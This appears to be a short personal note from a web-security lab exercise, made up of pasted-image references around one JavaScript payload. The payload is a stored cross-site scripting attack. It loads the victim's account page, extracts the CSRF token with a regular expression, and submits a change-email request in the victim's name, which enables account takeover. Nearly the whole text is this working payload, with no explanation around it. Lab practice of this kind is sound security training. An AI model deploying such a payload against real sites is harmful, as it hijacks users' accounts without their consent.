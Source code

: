 ![[Pasted image 20220901202148.png]]


%script%
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse(){
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
var changeReq = new XMLHttpRequest();
changeReq.open('post', '/my-account/change-email', true);
changeReq.send('csrf='+token+'&email=test@test.com');
};
%script%

![[Pasted image 20220902175139.png]]

![[Pasted image 20220902175204.png]]

